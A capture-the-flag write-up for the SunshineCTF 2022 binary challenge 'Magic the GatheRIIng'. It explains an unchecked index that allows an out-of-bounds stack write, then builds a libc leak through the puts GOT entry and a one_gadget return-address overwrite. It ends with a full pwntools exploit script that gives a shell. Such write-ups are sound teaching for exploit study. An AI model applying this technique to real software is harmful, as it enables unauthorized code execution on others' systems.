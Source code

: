 ## [RII] Magic the GatheRIIng

was a pwn challenge from SunshineCTF 2022.

the program is a pseudo "magic the gathering" card game.

let's check binary protections:

![checksec](./pics/checksec.png)

ok so no PIE.

well the program present us a menu:

![menu](./pics/menu.png)

you can print rules, load cards, play the game (slow of fast), and exits..

well the vulnerability lies in the function at address 0x40153f:

![reverse](./pics/reverse.png)

if you look at the reverse produce by IDA,

you can see that the scanf function `__isoc99_sscanf(a2, "%hhd %c %s %d %d %d", &v4, &v5, v10, &v6, &v7, &v8)`

initialize various variables,  the `v4` variable is used to calculate the `v9` pointer a bit after `v9 = 24LL * v4 + a1;`

then this `v9` pointer is used to write the other values `v6`, `v7` and `v8` in particular.

the `v4` index is not checked for any bounds, and as `v9` is based on `a1` variable that points on stack,

we basically have an out of bounds write on stack.

We can only control `v6`, `v7`, and `v8` values , so a qword and a dword,..
 
we can only load cards two times, so we can only write two really controlled values on stack..

**So here is the plan**

* **First we will try to have a libc leak**

* **Second we will overwrite main return address with a one gadget**

When playing the game, a string "Basic Troll" or "Basic Land" is printed, via pointers to this strings..

Luckily for us, one of this pointer is reachable with our oob write on stack , the "Basic Land" string pointer.

So we will overwrite this pointer, with the `puts()` function GOT address

Then we play a game , and when the game will try to print "Basic Land", it will leak `puts()` function libc address..

with this leak we will calculate libc base address.

Then with our second oob write, we overwrite `main()` return address with a onegadget..

And when we will exit, we will have a shell...

and that's All..

seeing is believing no?

![gotshell](./pics/gotshell.gif)

if you understand nothing of my explanation, well... just read the code

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

context.update(arch="amd64", os="linux")
context.log_level = 'info'

exe = ELF("MagicTheGatheRIIng_patched")
libc = ELF("./libc.so.6")

# change -l0 to -l1 for more gadgets
def one_gadget(filename, base_addr=0):
  return [(int(i)+base_addr) for i in subprocess.check_output(['one_gadget', '--raw', '-l0', filename]).decode().split(' ')]

# shortcuts
def logbase(): log.info("libc base = %#x" % libc.address)
def sla(delim,line): return p.sendlineafter(delim,line)

host, port = "sunshinectf.games", "22002"

if args.REMOTE:
  p = remote(host,port)
else:
  p = process([exe.path])

# overwrite "Basic Land" string, with puts got address to leak libc address
sla('> ', '2')
payload = '20 m %p 0 '+str(0x405f60)+' 0\n'
sla(':\n', payload)

# get our leak
sla('> ', '4')
while(1):
  p.recvuntil('Drew ', drop=True)
  leak = p.recv(6)
  if 'Basic' not in leak:
    break
# calculate libc base
libc.address = u64(leak.ljust(8,b'\x00')) - libc.sym['puts']
logbase()
p.recvuntil('Simplified', drop=True)
onegadgets = one_gadget(libc.path, libc.address)

# overwrite return address with onegadgets
sla('> ', '2')
target = onegadgets[1]
payload = '45 m '+'\x40\x02\x03'+' 1337 '+str(target & 0xffffffff)+' '+str((target>>32) & 0xffffffff)+'\n'
sla(':\n', payload)
# return and get shell
sla('> ', '5%s')

p.interactive()
```

*nobodyisnobody still pwning...*
